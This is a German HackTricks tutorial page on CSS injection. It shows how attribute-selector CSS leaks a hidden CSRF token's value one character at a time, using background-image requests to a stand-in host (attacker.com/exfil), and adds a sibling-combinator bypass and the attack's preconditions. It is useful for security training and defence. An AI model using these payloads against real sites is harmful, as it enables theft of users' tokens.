 # CSS Injection

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstütze HackTricks</summary></details>
{% endhint %}


## CSS Injection

### Attribut-Selektor

CSS-Selektoren sind so gestaltet, dass sie die Werte der `name`- und `value`-Attribute eines `input`-Elements abgleichen. Wenn das value-Attribut des Eingabeelements mit einem bestimmten Zeichen beginnt, wird eine vordefinierte externe Ressource geladen:
```css
input[name=csrf][value^=a]{
background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
background-image: url(https://attacker.com/exfil/9);
}
```
Allerdings stößt dieser Ansatz auf eine Einschränkung, wenn es um versteckte Eingabeelemente (`type="hidden"`) geht, da versteckte Elemente keine Hintergründe laden.

#### Umgehung für versteckte Elemente

Um diese Einschränkung zu umgehen, können Sie ein nachfolgendes Geschwisterelement mit dem `~` allgemeinen Geschwisterkombinator anvisieren. Die CSS-Regel wird dann auf alle Geschwister angewendet, die dem versteckten Eingabeelement folgen, wodurch das Hintergrundbild geladen wird:
```css
input[name=csrf][value^=csrF] ~ * {
background-image: url(https://attacker.com/exfil/csrF);
}
```
Ein praktisches Beispiel für die Ausnutzung dieser Technik ist im bereitgestellten Code-Snippet detailliert beschrieben. Sie können es [hier](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e) einsehen.

#### Voraussetzungen für CSS-Injection

Damit die CSS-Injection-Technik effektiv ist, müssen bestimmte Bedingungen erfüllt sein:

1. **Payload-Länge**: Der CSS-Injection-Vektor muss ausreichend lange Payloads unterstützen, um die gestalteten Selektoren unterzubringen.
2. **CSS-Neubewertung**: Sie sollten die Fähigkeit haben, die Seite einzurahmen, was notwendig ist, um die Neubewertung von CSS mit neu generierten Payloads auszulösen.
3. **Externe Ressourcen**: Die Technik setzt die Möglichkeit voraus, extern gehostete Bilder zu verwenden. Dies könnte durch die Content Security Policy (CSP) der Seite eingeschränkt sein.
